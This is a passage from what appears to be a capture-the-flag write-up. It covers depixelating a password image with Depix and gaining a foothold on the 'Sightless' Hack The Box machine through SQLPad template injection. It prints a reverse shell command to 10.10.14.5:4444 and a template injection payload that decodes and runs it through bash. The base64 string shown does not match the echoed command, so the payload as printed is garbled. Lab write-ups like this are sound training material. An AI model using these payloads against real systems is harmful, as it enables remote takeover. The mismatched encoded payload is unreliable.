 We can save this as convert.py script that will transform the image into RGB mode. We can execute it with ```python3 convert.py``` command.

Depix tool usage:

We will probably need to install it first. Depix requires Python and some Python libraries. We can install the required libraries with:

```
pip install opencv-python numpy pillow
```

Next, we clone it using git:

```
git clone https://github.com/beurtschipper/Depix.git
```

Navigate to the Directory:

```
cd Depix
```

And executing the tool goes like this:

```
python depix.py -p rgb_password.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o output.png
```

Note: the parameter ```-s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png``` should always be the same.

## Encoding payloads is often the key (Sightless retrospective)

While tackling the infamous 'Sightless' HTB box, I encountered a vulnerable SQLPad 6.10.0 service, which was supposed to provide initial foothold through a template injection vulnerability. Initially, I tried a straightforward payload, but it failed, suggesting that some form of input sanitization might be in place. As it turns out, my assumption was spot on and this is how I tackled this issue.

First, I needed to apply base64 encoding like this:

```
echo 'sh -i >& /dev/tcp/10.10.14.5/4444 0>&1' | base64
```

After that I was ready to inject it:

```
{{ process.mainModule.require('child_process').exec('echo c2ggLWkgPiYgL2Rldi90Y3FvMTAuMTAuMTQuNS80NDQ0IDA+JjEK | base64 -d | bash') }}
```

This worked beautifully and I got a shell.

## Enumeration works well with ssh tunneling

Once I gained a shell, the unusual hostname raised some suspicions. A quick ```ls -la /``` command confirmed it — I was inside a Docker container, running as root.
